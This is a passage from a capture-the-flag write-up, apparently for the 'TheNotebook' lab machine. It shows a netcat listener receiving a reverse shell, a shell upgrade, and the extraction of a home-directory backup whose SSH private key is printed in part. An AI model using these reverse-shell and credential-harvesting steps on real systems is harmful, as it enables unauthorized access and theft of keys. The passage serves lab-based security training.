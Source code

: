 ```php
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.170.242.
Ncat: Connection from 10.129.170.242:33486.
bash: cannot set terminal process group (1228): Inappropriate ioctl for device
bash: no job control in this shell
www-data@thenotebook:~/html$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@thenotebook:~/html$ export TERM=xterm
export TERM=xterm
www-data@thenotebook:~/html$ ^Z
[1]+  Stopped                 nc -lnvp 7575
$ stty raw -echo;fg
nc -lnvp 7575

www-data@thenotebook:~/html$
www-data@thenotebook:~/html$ stty rows 55 cols 236
```

## Backup

Backtracking to the earlier found note, checking the `/var/backups` directory we see a non default `home.tar.gz` archive.

```php
www-data@thenotebook:/var/backups$ ls
apt.extended_states.0  apt.extended_states.1.gz  apt.extended_states.2.gz  apt.extended_states.3.gz  home.tar.gz
```

Extracting this it is indeed a backup of the home directory of a user, which even featuers his private ssh key.

```php
www-data@thenotebook:/var/backups$ cp home.tar.gz /tmp/
www-data@thenotebook:/var/backups$ cd /tmp/
www-data@thenotebook:/tmp$ tar -xvf home.tar.gz 
home/
home/noah/
home/noah/.bash_logout
home/noah/.cache/
home/noah/.cache/motd.legal-displayed
home/noah/.gnupg/
home/noah/.gnupg/private-keys-v1.d/
home/noah/.bashrc
home/noah/.profile
home/noah/.ssh/
home/noah/.ssh/id_rsa
home/noah/.ssh/authorized_keys
home/noah/.ssh/id_rsa.pub
www-data@thenotebook:/tmp$ cat home/noah/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEAyqucvz6P/EEQbdf8cA44GkEjCc3QnAyssED3qq9Pz1LxEN04
HbhhDfFxK+EDWK4ykk0g5MvBQckcxAs31mNnu+UClYLMb4YXGvriwCrtrHo/ulwT
rLymqVzxjEbLUkIgjZNW49ABwi2pDfzoXnij9JK8s3ijIo+w/0RqHzAfgS3Y7t+b
HVo4kvIHT0IXveAivxez3UpiulFkaQ4zk37rfHO3wuTWsyZ0vmL7gr3fQRBndrUD
v4k2zwetxYNt0hjdLDyA+KGWFFeW7ey9ynrMKW2ic2vBucEAUUe+mb0EazO2inhX
rTAQEgTrbO7jNoZEpf4MDRt7DTQ7dRz+k8HG4wIDAQABAoIBAQDIa0b51Ht84DbH
+UQY5+bRB8MHifGWr+4B6m1A7FcHViUwISPCODg6Gp5o3v55LuKxzPYPa/M0BBaf
Q9y29Nx7ce/JPGzAiKDGvH2JvaoF22qz9yQ5uOEzMMdpigS81snsV10gse1bQd4h
CA4ehjzUultDO7RPlDtbZCNxrhwpmBMjCjQna0R2TqPjEs4b7DT1Grs9O7d7pyNM
Um/rxjBx7AcbP+P7LBqLrnk7kCXeZXbi15Lc9uDUS2c3INeRPmbFl5d7OdlTbXce
YwHVJckFXyeVP6Qziu3yA3p6d+fhFCzWU3uzUKBL0GeJSARxISsvVRzXlHRBGU9V
```
